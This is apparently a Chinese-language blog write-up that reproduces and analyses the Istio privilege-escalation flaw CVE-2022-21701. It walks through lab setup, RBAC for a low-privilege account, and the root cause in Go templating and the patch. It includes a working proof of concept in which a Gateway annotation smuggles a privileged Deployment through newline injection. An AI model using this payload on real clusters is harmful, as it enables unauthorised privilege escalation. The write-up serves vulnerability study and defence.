






# CVE-2022-21701 Istio 提权漏洞复现与分析

&emsp;&emsp;Istio [1.12.0,1.12.1] 版本存在提权漏洞，当用户拥有`gateways.gateway.networking.k8s.io` 资源对象权限时，可以提权到 istiod serviceaccount权限。通过一个漏洞，我们可以学习到一种思路。

```
https://nvd.nist.gov/vuln/detail/CVE-2022-21701

Istio is an open platform to connect, manage, and secure microservices. In versions 1.12.0 and 1.12.1 Istio is vulnerable to a privilege escalation attack. Users who have `CREATE` permission for `gateways.gateway.networking.k8s.io` objects can escalate this privilege to create other resources that they may not have access to, such as `Pod`. This vulnerability impacts only an Alpha level feature, the Kubernetes Gateway API. This is not the same as the Istio Gateway type (gateways.networking.istio.io), which is not vulnerable. Users are advised to upgrade to resolve this issue. Users unable to upgrade should implement any of the following which will prevent this vulnerability: Remove the gateways.gateway.networking.k8s.io CustomResourceDefinition, set PILOT_ENABLE_GATEWAY_API_DEPLOYMENT_CONTROLLER=true environment variable in Istiod, or remove CREATE permissions for gateways.gateway.networking.k8s.io objects from untrusted users.
```

## 1. 环境搭建

&emsp;&emsp;在比较新的k8s版本中 1.12.x 的 Istio 无法安装成功，需要另外选择旧版本的k8s进行安装。

&emsp;&emsp;使用k3s安装 v1.22.8 版本的k8s ，下载地址 https://github.com/k3s-io/k3s/releases/download/v1.22.8%2Bk3s1/k3s

```
root@master:/home/test# chmodx +x k3s
root@master:/home/test# mv k3s /usr/local/bin/
root@master:/home/test# k3s server & #等待3分钟作用，控制台没有输出，即安装完成

```

&emsp;&emsp;将另外一台节点加入到集群中：

```
root@master:/home/test# cat /var/lib/rancher/k3s/server/node-token
K10a4c7fcddacfa5b1086c2cb640d014ac1a21b0a2ba7fd9ce1109dea1094e17363::server:2e387118b173becea9dd5a96ef465363

root@node01:/home/test# k3s agent --server https://192.168.128.131:6443 --token K10a4c7fcddacfa5b1086c2cb640d014ac1a21b0a2ba7fd9ce1109dea1094e17363::server:2e387118b173becea9dd5a96ef465363 &

```

&emsp;&emsp;安装完成后查看节点：

```
root@master:/home/test# k3s kubectl get nodes
NAME           STATUS   ROLES                  AGE   VERSION
master.local   Ready    control-plane,master   20m   v1.22.8+k3s1
node01.local   Ready    <none>                 14m   v1.22.8+k3s1
```

&emsp;&emsp;下载istio并解压 https://github.com/istio/istio/releases/download/1.12.0/istio-1.12.0-linux-amd64.tar.gz

```
cd istio-1.12.0/
cp bin/istioctl /usr/local/bin/
export KUBECONFIG=/etc/rancher/k3s/k3s.yaml # 根据环境设置配置文件

```

&emsp;&emsp;检查

```
root@master:/home/test/istio-1.12.0# istioctl x precheck
✔ No issues found when checking the cluster. Istio is safe to install or upgrade!
  To get started, check out https://istio.io/latest/docs/setup/getting-started/
```

&emsp;&emsp;Istio 前置检查

```
root@master:/home/test# istioctl install --set profile=demo -y
✔ Istio core installed
✔ Istiod installed
✔ Egress gateways installed
✔ Ingress gateways installed
✔ Installation complete

```

&emsp;&emsp;安装Istio

```
curl -L https://istio.io/downloadIstio | ISTIO_VERSION=1.12.0 TARGET_ARCH=x86_64 proxychains sh -

cd istio-1.12.0/
export PATH=$PWD/bin:$PATH

export KUBECONFIG=/etc/rancher/k3s/k3s.yaml # 根据环境设置配置文件

root@master:/home/test/istio-1.12.0# istioctl x precheck
✔ No issues found when checking the cluster. Istio is safe to install or upgrade!
  To get started, check out https://istio.io/latest/docs/setup/getting-started/


istioctl install --set profile=demo -y

```

&emsp;&emsp;查看相关pod情况：

```
root@master:/home/test# k3s kubectl get pods -A
NAMESPACE      NAME                                      READY   STATUS      RESTARTS   AGE
kube-system    local-path-provisioner-84bb864455-tg77k   1/1     Running     0          12m
kube-system    coredns-7796b77cd4-vcf4d                  1/1     Running     0          12m
kube-system    metrics-server-ff9dbcb6c-hnt58            1/1     Running     0          12m
kube-system    helm-install-traefik-crd--1-4fxbl         0/1     Completed   0          12m
kube-system    helm-install-traefik--1-z4d5d             0/1     Completed   1          12m
kube-system    svclb-traefik-4vd2b                       2/2     Running     0          8m6s
kube-system    traefik-56c4b88c4b-mfkl2                  1/1     Running     0          8m7s
kube-system    svclb-traefik-n4c6p                       2/2     Running     0          6m7s
istio-system   istiod-555d47cb65-vssfw                   1/1     Running     0          3m52s
istio-system   svclb-istio-ingressgateway-rw7qb          0/5     Pending     0          109s
istio-system   svclb-istio-ingressgateway-tbvpw          0/5     Pending     0          109s
istio-system   istio-ingressgateway-55d9fb9f-wc62h       1/1     Running     0          110s
istio-system   istio-egressgateway-7f4864f59c-bznfg      1/1     Running     0          110s

```

networking.istio.io

&emsp;&emsp;根据nvd描述可知，拥有 gateways.gateway.networking.k8s.io 对象权限的的角色才会造成越权问题，我们查询一下该资源（CustomResourceDefinitions为api-resources的子集）

```
root@master:/home/test# kubectl get crd gateways.gateway.networking.k8s.io
NAME                                 CREATED AT
gateways.gateway.networking.k8s.io   2023-08-28T09:22:18Z

root@master:/home/test# k api-resources --api-group=gateway.networking.k8s.io
NAME                SHORTNAMES   APIVERSION                           NAMESPACED   KIND
...
gateways            gtw          gateway.networking.k8s.io/v1alpha2   true         Gateway
...

```


## 2. 漏洞复现

&emsp;&emsp;由于系统默认没有带有 gateways.gateway.networking.k8s.io 权限的 账户，在不使用admin的情况下我们可以选择创建一个进行模拟

```
k create ns istio-test
k apply -f - << EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  namespace: istio-test
  name: istio-test-sa
EOF
```

```
k apply -f - << EOF
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  namespace: istio-test
  name: istio-test-role
rules:
- apiGroups: [ "gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create"]
EOF
```

```
k apply -f - << EOF
kind: RoleBinding
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  namespace: istio-test
  name: istio-test-role-bind

subjects:
- kind: ServiceAccount
  namespace: istio-test
  name: istio-test-sa

roleRef:
  kind: Role
  name: istio-test-role
  apiGroup: rbac.authorization.k8s.io
EOF
```


```
root@master:/home/test# k get gateways -A
No resources found

```

&emsp;&emsp;获取token

```
root@master:/home/test# k get secrets -n istio-test
NAME                        TYPE                                  DATA   AGE
default-token-4rvb7         kubernetes.io/service-account-token   3      21m
istio-test-sa-token-6zzj8   kubernetes.io/service-account-token   3      21m
root@master:/home/test# k get secrets istio-test-sa-token-6zzj8 -n istio-test -o yaml
...

```

&emsp;&emsp;可以看到这个sa是没有 pod 资源的CREATE权限的：

```
test@node01:~$ ./kubectl -s https://192.168.128.131:6443 --insecure-skip-tls-verify=true --token eyJhbGciO...  auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]

```

&emsp;&emsp;通过如下POC进行越权创建deployment资源

```
test@node01:~$ ./kubectl -s https://192.168.128.131:6443 --insecure-skip-tls-verify=true --token eyJhbGciO... create -f - << EOF
apiVersion: gateway.networking.k8s.io/v1alpha2
kind: Gateway
metadata:
  name: gatewaytest
  namespace: istio-test
  annotations:
    networking.istio.io/service-type: |-
      "LoadBalancer"
      apiVersion: apps/v1
      kind: Deployment
      metadata:
        name: pwned-deployment1
        namespace: istio-test
      spec:
        selector:
          matchLabels:
            app: nginx
        replicas: 1
        template:
          metadata:
            labels:
              app: nginx
          spec:
            containers:
            - name: nginx
              image: nginx
              ports:
              - containerPort: 80
              securityContext:
                privileged: true
spec:
  gatewayClassName: istio
  listeners:
  - name: default
    hostname: "*.example.com"
    port: 80
    protocol: HTTP
    allowedRoutes:
      namespaces:
        from: All
EOF
```

&emsp;&emsp;相关注入的YAML创建的POD：

```

# k get pods -n istio-test
NAME                                 READY   STATUS    RESTARTS   AGE
pwned-deployment1-74bc56fb4b-hv4lg   1/1     Running   0          40s
gatewaytest-67f4f459d8-d7gmt         1/1     Running   0          40s

```

&emsp;&emsp;越权所用的sa为istiod

```
# k config set-context default --namespace=istio-system
# k get sa istiod
NAME                                   SECRETS   AGE
istiod                                 1         44h

```

&emsp;&emsp;istiod权限如下：

```
test@node01:~$ ./kubectl -s https://192.168.128.131:6443 --insecure-skip-tls-verify=true --token ${TOKEN} auth can-i --list
Resources                                                      Non-Resource URLs                     Resource Names                   Verbs
ingresses.networking.k8s.io/status                             []                                    []                               [*]
signers.certificates.k8s.io                                    []                                    [kubernetes.io/legacy-unknown]   [approve]
configmaps                                                     []                                    []                               [create get list watch update]
tokenreviews.authentication.k8s.io                             []                                    []                               [create]
selfsubjectaccessreviews.authorization.k8s.io                  []                                    []                               [create]
selfsubjectrulesreviews.authorization.k8s.io                   []                                    []                               [create]
subjectaccessreviews.authorization.k8s.io                      []                                    []                               [create]
mutatingwebhookconfigurations.admissionregistration.k8s.io     []                                    []                               [get list watch update patch]
validatingwebhookconfigurations.admissionregistration.k8s.io   []                                    []                               [get list watch update]
endpoints                                                      []                                    []                               [get list watch]
namespaces                                                     []                                    []                               [get list watch]
nodes                                                          []                                    []                               [get list watch]
pods                                                           []                                    []                               [get list watch]
customresourcedefinitions.apiextensions.k8s.io                 []                                    []                               [get list watch]
endpointslices.discovery.k8s.io                                []                                    []                               [get list watch]
ingressclasses.networking.k8s.io                               []                                    []                               [get list watch]
ingresses.networking.k8s.io                                    []                                    []                               [get list watch]
serviceexports.multicluster.x-k8s.io                           []                                    []                               [get watch list create delete]
services                                                       []                                    []                               [get watch list update patch create delete]
deployments.apps                                               []                                    []                               [get watch list update patch create delete]
workloadentries.networking.istio.io/status                     []                                    []                               [get watch list update patch create delete]
workloadentries.networking.istio.io                            []                                    []                               [get watch list update patch create delete]
*.gateway.networking.k8s.io                                    []                                    []                               [get watch list update patch]
*.networking.x-k8s.io                                          []                                    []                               [get watch list update patch]
secrets                                                        []                                    []                               [get watch list]
*.authentication.istio.io                                      []                                    []                               [get watch list]
*.config.istio.io                                              []                                    []                               [get watch list]
*.extensions.istio.io                                          []                                    []                               [get watch list]
serviceimports.multicluster.x-k8s.io                           []                                    []                               [get watch list]
*.networking.istio.io                                          []                                    []                               [get watch list]
*.rbac.istio.io                                                []                                    []                               [get watch list]
*.security.istio.io                                            []                                    []                               [get watch list]
*.telemetry.istio.io                                           []                                    []                               [get watch list]
                                                               [/.well-known/openid-configuration]   []                               [get]
                                                               [/api/*]                              []                               [get]
                                                               [/api]                                []                               [get]
                                                               [/apis/*]                             []                               [get]
                                                               [/apis]                               []                               [get]
                                                               [/healthz]                            []                               [get]
                                                               [/healthz]                            []                               [get]
                                                               [/livez]                              []                               [get]
                                                               [/livez]                              []                               [get]
                                                               [/openapi/*]                          []                               [get]
                                                               [/openapi]                            []                               [get]
                                                               [/openid/v1/jwks]                     []                               [get]
                                                               [/readyz]                             []                               [get]
                                                               [/readyz]                             []                               [get]
                                                               [/version/]                           []                               [get]
                                                               [/version/]                           []                               [get]
                                                               [/version]                            []                               [get]
                                                               [/version]                            []                               [get]
certificatesigningrequests.certificates.k8s.io/approval        []                                    []                               [update create get delete watch]
certificatesigningrequests.certificates.k8s.io/status          []                                    []                               [update create get delete watch]
certificatesigningrequests.certificates.k8s.io                 []                                    []                               [update create get delete watch]

```

&emsp;&emsp;istiod sa绑定的clusterrole为istiod-clusterrole-istio-system，我们修改该绑定关系后发现漏洞无法复现，这表明越权后的用户确实为 istiod serviceaccount

```
k edit clusterrolebinding istiod-clusterrole-istio-system
```


```

https://www.orchome.com/2027

istioctl manifest generate --set profile=demo | kubectl delete --ignore-not-found=true -f -

```

## 3. 关键流程分析

&emsp;&emsp;Istio的 AdmissionController 会负责处理 Gateway 类型的资源，gateway 类型的 api-resources 是istio通过k8s 的crd方式创建的，其中，istio会将gateway的CREATE/UPDATE转换为 service 与 deployment 两种资源，[其中的注解与标签也会被拷贝过去](https://istio.io/latest/docs/tasks/traffic-management/ingress/gateway-api/#automated-deployment)，而漏洞问题就出现这个数据经过多个不同解析器的过程：istio通过go text/template标准库指定`templates/service.yaml`文件为模板 生成 service 资源类型的配置，而模板中用于填充的数据的来源为用户提交的 gateway 配置，gateway配置中的 annotations 字段值恰好没有经过 Validation Admission Policy 的审计 、也没有其他代码层面的过滤、或转义，我们可以通过添加换行字符修改YAML配置结构达到修改 gateway 配置的目的，且权限提升为 istiod serviceaccount。

&emsp;&emsp;k8s中的各种资源在被创建或修改更新时，会通过相应的Validation检查这些属性值是否遵循正确的规范、范围，k8s中相应的库为 apimachinery ，针对各种api-resources包括用户自定义的CRD资源后，用户可以通过自定义[ValidatingAdmissionPolicy](https://kubernetes.io/docs/reference/access-authn-authz/validating-admission-policy/)来对其进行规范，如下示例展示了不规范字段值被约束的告警，我们也可以直接以这种方式来测试字段的规范情况：

```
The Gateway "gatewaytest\\n123" is invalid: metadata.name: Invalid value: "gatewaytest\\n123": a lowercase RFC 1123 subdomain must consist of lower case alphanumeric characters, '-' or '.', and must start and end with an alphanumeric character (e.g. 'example.com', regex used for validation is '[a-z0-9]([-a-z0-9]*[a-z0-9])?(\.[a-z0-9]([-a-z0-9]*[a-z0-9])?)*')
```

&emsp;&emsp;我们可以通过源码文件中的单元测试代码来debug从而理解该关键流程：



&emsp;&emsp;用于生成service资源配置的 `service.yaml` 模板文件内容如下，其中的 `type` 字段通过 index 语法从上下文中获取名称`Annotations`的map，并取 key 值为  `networking.istio.io/service-type` 的 value值，另外其他字段也来源于Gateway且没有经过过滤验证，但由于不在末尾，构建POC比较麻烦：



&emsp;&emsp;我们的数据封装为 `serviceInput` 类型的对象，并应用于service.yaml 模板文件



&emsp;&emsp;可以看到，应用模板文件后输出的文本中，我们的换行符改变了yaml文件格式，我们可以尝试定义其他类型的资源，如pod



&emsp;&emsp;模板转换成功后通过patcher方法请求apiserver部署资源


&emsp;&emsp;patcher方法为抽象方法，对应的实现在`NewDeploymentController`初始化代码中，可以看到，其最终调用client，而client为istio启动时的初始化对象，相关参数来源启动参数：



## 4. 补丁

&emsp;&emsp;通过text/template 的 quote 语法让输出的文本自动使用引号包裹，解决换行等字符导致的注入新的YAML结构的问题，除了 `type` 字段外的多个字段也统一修复：




## 5. 结语

&emsp;&emsp;关于istio是否添加Validation约束Gateway等资源，或添加的内容具体是什么，笔者还不是很清晰，其中通过 `k get validatingwebhookconfigurations -o yaml`命令看到的内容可能展示了部分，还待了解整个代码机制。官方也给出了Istio 远程GO DEBUG的参考配置，后续可考虑在此DEBUG环境下做更多了解。总之，由于对完整机制、代码 还未透彻，其中一些漏洞细节分析还是比较粗略。

## 参考

https://www.anquanke.com/post/id/272528 Go template 遇上 yaml 反序列化 CVE-2022-21701 分析
